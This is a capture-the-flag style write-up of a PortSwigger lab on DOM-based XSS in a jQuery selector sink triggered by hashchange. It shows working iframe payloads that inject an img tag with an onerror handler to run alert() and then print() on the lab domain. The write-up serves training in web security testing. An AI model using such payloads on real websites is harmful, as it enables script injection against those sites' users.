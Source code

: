 ## Lab Description: DOM XSS in jQuery selector sink using a hashchange event

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ab71918f-4f75-49f4-9c9f-dfc8e3af1bcd)


## Solution: 

jQuery $ selector function is used to auto-scroll to a post based on the location.hash property

Goals:Deliver an exploit that calls print

The first step is to analyse the web application. An interesting script can be found at the bottom of the page:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6918507b-d003-4188-b448-fcd0ee1b77f1)

A quick check in some online documentation shows that the script is used to scroll to a post indicated by the fragment part of the URL. Using the title of a post after a #, the browser scrolls to the post.

entering `No More Burping Out Loud Guys` after `#`

It will get redirected to there.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4c869cc4-7c5d-4be3-ae45-8d42e65d8991)

According to scrip it should come.verfiying using the console.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/20d43f4f-f788-45ec-a4f7-46bee4beaea1)

It also shows an error similar to the one shown in the previous section.

Unfortunately, I can not simply attach an onerror handler on the iframe, I guess because of differing origins of the page itself (exploit server) and the iframe.

Instead, I try to inject an img tag with an invalid source and local onerror handler:
```
<iframe src="https://0ae600e2041534388151a2c5003f00a6.web-security-academy.net/#" onload="this.src+='<img src=xxx onerror=alert()>'"></iframe>
```
And shows the alert box confirming that the script triggers on the main domain:

Now it is simple: Changing the error handler to call print and deliver the exploit to the victim:
```
<iframe src="https://0ae600e2041534388151a2c5003f00a6.web-security-academy.net/#" onload="this.src+='<img src=xxx onerror=print()>'"></iframe>
```
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/becd1c22-8a95-4b94-8e2a-350adfaad6d9)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a919a689-9dc9-4219-8e2c-50f7b45a8ef5)

